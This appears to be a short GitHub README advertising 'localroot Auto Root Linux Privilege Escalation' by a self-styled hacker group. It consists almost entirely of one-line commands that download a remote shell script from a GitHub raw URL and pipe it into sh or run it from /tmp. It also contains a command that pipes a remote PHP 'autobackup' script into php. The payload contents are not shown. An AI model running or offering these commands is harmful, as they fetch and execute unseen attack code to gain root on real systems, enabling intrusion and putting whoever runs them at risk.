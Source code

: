 # localroot Auto Root Linux Privilege Escalation

```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh | sh
```
```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& sed -i 's/\r$//' /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
# Auto Backup defend 🙂‍↔️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/autobackup.php | php - backup y
```

☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️
